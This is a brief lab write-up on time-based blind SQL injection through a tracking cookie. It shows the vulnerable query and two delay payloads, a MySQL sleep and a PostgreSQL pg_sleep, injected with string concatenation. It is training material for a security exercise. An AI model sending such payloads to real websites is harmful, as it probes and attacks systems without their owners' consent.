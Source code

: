 # Lab 13 - Blind SQL Injection with time delays

> ### Vulnerable parameter - tracking cookie

### End Goal:
- to prove that the field is vulnerable to blind SQLi (time based)

## Analysis:

select tracking-id from tracking-table where trackingid='OVmpehhTPt2iCL19'|| (SELECT sleep(10))--';

' || (SELECT sleep(10))-- -x
' || (SELECT pg_sleep(10))-- 

script.py <url>
